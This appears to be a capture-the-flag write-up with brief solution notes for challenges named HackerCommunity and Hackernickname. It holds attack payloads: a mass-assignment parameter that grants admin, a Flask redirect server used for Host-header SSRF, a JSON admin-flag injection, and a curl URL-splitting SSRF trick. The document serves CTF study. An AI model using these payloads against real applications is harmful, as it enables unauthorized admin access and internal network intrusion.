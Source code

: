 
## Sharing is not caring

<https://github.com/7h4nd5RG0d/Forensics/blob/main/Networking/Sharing%20is%20not%20Caring(Shared%20Folder+TLS%20Decrypt)/README.md>

## HackerCommunity

Challenge developed in ruby on rails.

Get admin modifying join request and append to body:
`admin()=0`

Host this in vps or use ngrok

```py
from flask import Flask, redirect

app = Flask(__name__)

@app.route("/users/latest")
def flag():
    return redirect("http://172.206.89.197:3000/flag")

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8080)
```

GET /home using header `Host: your-server`

![Alt text](image.png)

## Hackernickname

Application in Java.

First login as admin by adding empty name object with admin attribute, passing something like "":{"admin":true}

Then SSRF passing 2 urls as 1 to curl, something like https://{a@url1/path1,b@url2/path2}

In the end, interact with the serialization endpoint.


